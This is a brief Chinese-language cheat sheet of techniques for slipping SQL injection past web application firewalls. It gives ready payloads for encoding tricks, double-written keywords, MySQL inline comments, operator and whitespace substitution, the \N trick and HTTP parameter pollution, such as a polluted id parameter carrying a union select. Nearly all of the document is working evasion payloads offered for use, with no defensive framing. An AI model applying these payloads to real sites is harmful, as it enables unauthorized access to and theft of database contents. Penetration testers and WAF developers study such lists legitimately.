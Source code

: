 # 编码绕过

```
    针对WAF过滤的字符编码，如使用URL编码，Unicode编码，十六进制编码，Hex编码等.

    举例：union select 1,2,3# =union%0aselect 1\u002c2,3%23
```

# 双写绕过

```
    部分WAF只对字符串识别一次，删除敏感字段并拼接剩余语句，这时，我们可以通过双写来进行绕过。

    举例：UNIunionON ，SELselectECT anandd
```

# 换行(\N)绕过

```
    举例：select * from admin where username = \N union select 1,user() from admin
```

# 注释符内联注释绕过：

```

    union selecte =/*!union*/ select

    注释符里感叹号后面的内容会被mysql执行。
```

# 同义词替换

```
    and=&&

    or=||

    =(等于号)=<、>

    空格不能使用=%09,%0a,%0b,%0c,%0d,%20,%a0等

    注：%0a是换行也可以替代空格
```

# HTTP参污染

```
    对目标发送多个参数，如果目标没有多参数进行多次过滤，那么WAF对多个参数只会识别其中的一个。

    举例：?id=1&id=2&id=3
    ?id=1/**&id=-1%20union%20select%201,2,3%23*/
```
